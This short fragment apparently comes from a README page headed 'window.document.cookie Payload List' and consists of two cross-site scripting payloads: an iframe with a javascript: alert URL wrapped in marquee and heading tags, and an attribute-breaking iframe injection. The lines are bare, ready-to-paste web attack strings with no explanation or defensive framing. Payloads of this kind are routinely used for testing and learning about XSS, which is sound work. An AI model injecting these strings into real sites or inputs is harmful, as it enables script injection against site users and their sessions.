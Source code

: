 #### window.document.cookie Payload List :

```











<iframe src="javascript:alert('XSS by \nxss');"></iframe><marquee><h1>XSS by xss</h1></marquee>
"><h1><IFRAME SRC="javascript:alert('XSS');"></IFRAME>">123</h1>














